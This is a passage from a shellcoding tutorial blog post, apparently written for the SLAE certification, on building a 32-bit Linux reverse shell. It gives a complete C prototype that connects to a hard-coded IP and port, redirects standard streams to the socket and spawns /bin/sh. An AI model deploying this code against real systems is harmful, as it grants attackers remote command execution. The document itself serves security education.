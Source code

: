 ```yaml
---
title: Linux reverse shell in assembly
author: Stipe Marinovic
date: 2020-05-27 23:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```


## Introduction ##

Objective of this blog post is to explain process of creating reverse shell in assembly language for 32 bit Linux. 
Blog post was created for the SLAE certification exam and it describes process of creating both: reverse shell and wrapper script which allows easy modification of IP address and port. 
Reverse shell can simply be described as a piece of code which can be used to gain command execution (shell access) on target host by establishing connection with remote machine. 
It is mostly used within payload sent to remote application which is vulnerable to buffer overflow.

## Prototype ##

To get idea how reverse shell works and which syscalls are used/needed we can create prototye of reverse shell code in C.  

```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h>
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main(int argc, char *argv[])
{
    // define struct saddress
    struct sockaddr_in saddress;
    int socketid;

    // declare struct variables (remote host IP address, port..)
    saddress.sin_family = AF_INET;
    saddress.sin_addr.s_addr = inet_addr("192.168.192.159");
    saddress.sin_port = htons(4444);

    // create socket
    socketid = socket(AF_INET, SOCK_STREAM, 0);

    // connect to remote IP address/port
    connect(socketid, (struct sockaddr *)&saddress, sizeof(saddress));

    // copy STDIN, STDOUT and STDERR to socket
    dup2(socketid, 0);
    dup2(socketid, 1);
    dup2(socketid, 2);

    // execute /bin/sh 
    execve("/bin/sh", 0, 0);
    return 0;
}
```

